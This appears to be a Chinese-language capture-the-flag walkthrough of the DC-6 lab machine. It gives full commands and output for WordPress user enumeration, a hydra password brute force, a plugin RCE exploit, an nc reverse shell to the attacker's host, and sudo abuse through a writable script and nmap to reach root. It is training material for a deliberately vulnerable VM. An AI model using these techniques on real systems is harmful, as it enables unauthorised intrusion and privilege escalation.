


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ sudo nmap -sT --min-rate 9999 192.168.10.10         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 20:33 EDT
Nmap scan report for 192.168.10.10
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:72:A0:4F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ sudo nmap -sT -sCV -O -p22,80 192.168.10.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 20:33 EDT
Nmap scan report for 192.168.10.10
Host is up (0.00048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:72:A0:4F (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

## web渗透
首先要改一下hosts文件

然后就是列举一下用户名吧
```bash
wpscan --url http://wordy/ -e u 

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


```
将以上用户作为用户本
然后根据靶机提示制作密码本

```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```
post表单爆破登录界面

```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ hydra -L users -P passwords.txt wordy  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -t 50 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-17 21:00:28
[DATA] max 50 tasks per 1 server, overall 50 tasks, 13340 login tries (l:5/p:2668), ~267 tries per task
[DATA] attacking http-post-form://wordy:80/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect
[STATUS] 2201.00 tries/min, 2201 tries in 00:01h, 11139 to do in 00:06h, 50 active
[STATUS] 2431.67 tries/min, 7295 tries in 00:03h, 6045 to do in 00:03h, 50 active
[80][http-post-form] host: wordy   login: mark   password: helpdesk01
```

登录wordpress
mark/helpdesk01


这和之前利用过的wordpress不同
来到tools页面
```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ searchsploit activity                            
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                          |  Path
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Activity MOD Plus 1.1.0 - 'phpBB Mod' File Inclusion                                                                                    | php/webapps/1844.txt
Activity Monitor 2002 2.6 - Remote Denial of Service                                                                                    | windows/dos/22690.c
DataTrac Activity Console - Denial of Service                                                                                           | windows/dos/983.cpp
Facebook for Android - 'LoginActivity' Information Disclosure                                                                           | android/remote/38170.txt
GLPI Activity  v3.1.0 - Authenticated Local File Inclusion on Activity plugin                                                           | php/webapps/51232.txt
mxBB Module Activity Games 0.92 - Remote File Inclusion                                                                                 | php/webapps/2919.pl
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout                                                                  | linux/local/19900.c
WordPress Plugin Activity Log 2.3.1 - Persistent Cross-Site Scripting                                                                   | php/webapps/40083.txt
WordPress Plugin Activity Log 2.4.0 - Cross-Site Scripting                                                                              | php/webapps/44409.txt
WordPress Plugin Activity Log 2.4.0 - Stored Cross-Site Scripting                                                                       | php/webapps/44437.txt
WordPress Plugin BuddyPress Activity Plus 1.5 - Cross-Site Request Forgery                                                              | php/webapps/37629.txt
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection                                                | php/webapps/45274.html
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2)                                  | php/webapps/50110.py
---------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

尝试命令执行后没什么结果，搜索工具的历史漏洞搜索到了

## 第一个shell，反弹shell

```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ python3 50110.py
What's your target IP?
192.168.10.10
What's your username?
mark
What's your password?
helpdesk01
[*] Please wait...
[*] Perfect! 
www-data@192.168.10.10  


```

得到一个命令执行的终端

```bash
┌──(kali㉿kali)-[~/workspace/DC6]
└─$ python3 50110.py
[*] Please wait...
[*] Perfect! 
www-data@192.168.10.10  nc -c sh 192.168.10.3 53       
```

这里得用nc去连

```bash
www-data@dc-6:/var/www/html/wp-admin$ cat /etc/passwd |grep home 
cat /etc/passwd |grep home
graham:x:1001:1001:Graham,,,:/home/graham:/bin/bash
mark:x:1002:1002:Mark,,,:/home/mark:/bin/bash
sarah:x:1003:1003:Sarah,,,:/home/sarah:/bin/bash
jens:x:1004:1004:Jens,,,:/home/jens:/bin/bash
www-data@dc-6:/var/www/html/wp-admin$ cd /home/mark

www-data@dc-6:/home/mark$ ls -la
ls -la
total 28
drwxr-xr-x 3 mark mark 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rw------- 1 mark mark    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 mark mark  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 mark mark 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 mark mark  675 Apr 24  2019 .profile
drwxr-xr-x 2 mark mark 4096 Apr 26  2019 stuff
www-data@dc-6:/home/mark$ cd stuff
cd stuff
www-data@dc-6:/home/mark/stuff$ ls -la
ls -la
total 12
drwxr-xr-x 2 mark mark 4096 Apr 26  2019 .
drwxr-xr-x 3 mark mark 4096 Apr 26  2019 ..
-rw-r--r-- 1 mark mark  241 Apr 26  2019 things-to-do.txt
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt
cat things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
www-data@dc-6:/home/mark/stuff$ 
```
看了下有家目录的用户
并且在第一个得到密码的用户mark的家目录下找到用户graham的密码

graham/GSo7isUM1D4

```bash
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
graham@dc-6:~$ ls -la /home/jens/
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
graham@dc-6:~$ cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$ cd /home/jens/
graham@dc-6:/home/jens$ ln -s /bin/vi tar
ln: failed to create symbolic link 'tar': Permission denied
```
想用下软连接的来着，结果权限不够

```bash
graham@dc-6:/home/jens$ ls -la
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
graham@dc-6:/home/jens$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
```
这里看到graham居然是devs用户组的
那可以直接编辑

## 提权

```bash
graham@dc-6:/home/jens$ vim backups.sh
-bash: vim: command not found
graham@dc-6:/home/jens$ nano backups.sh
graham@dc-6:/home/jens$ sudo -u jens /home/jens/backups.sh
jens@dc-6:~$ whoami
jens
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:~$ 
```
切换到jens用户后，得到jens的sudo信息
那就nmap提权了
```bash
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:~$ nmap --interactive
nmap: unrecognized option '--interactive'
See the output of nmap -h for a summary of options.
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2024-03-18 13:38 AEST
NSE: Warning: Loading '/tmp/tmp.qU3XFyRZhO' -- the recommended file extension is '.nse'.
# 
# uid=0(root) gid=0(root) groups=0(root)
# /dev/pts/1
# root
# root@dc-6:/home/jens# whoami
root
root@dc-6:/home/jens# ls /root
theflag.txt
root@dc-6:/home/jens# cat /root/theflag.txt 


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

python -c "import pty;pty.spawn('/bin/bash')"
升级一下shell
得到rootflag
